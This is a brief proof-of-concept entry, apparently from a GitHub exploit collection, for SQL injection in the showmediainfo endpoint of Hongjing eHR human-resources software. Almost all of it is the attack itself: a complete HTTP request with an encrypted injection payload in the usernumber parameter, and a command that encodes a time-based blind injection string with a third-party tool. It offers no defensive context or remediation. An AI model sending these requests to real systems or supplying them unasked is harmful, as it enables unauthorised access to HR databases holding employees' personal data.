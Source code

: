 # honjin_showmediainfo_sqli

from: https://github.com/wy876/POC/blob/main/%E5%AE%8F%E6%99%AFeHR%E4%BA%BA%E5%8A%9B%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E8%BD%AF%E4%BB%B6showmediainfo%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.4.15 @2

```
GET /workbench/duty/showmediainfo?kind=0&usernumber=1MV8sCtnMcsZFzLhJXUMPAATTP2HJFPAATTPVIRoUrFdir1XVNthrak35kPAATTP3HJDPAATTP&planid=1&objectid=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

加密工具：`https://github.com/vaycore/HrmsTool/releases/tag/0.1`

java -jar HrmsTool.jar -e "1';waitfor delay '0:0:5'--"
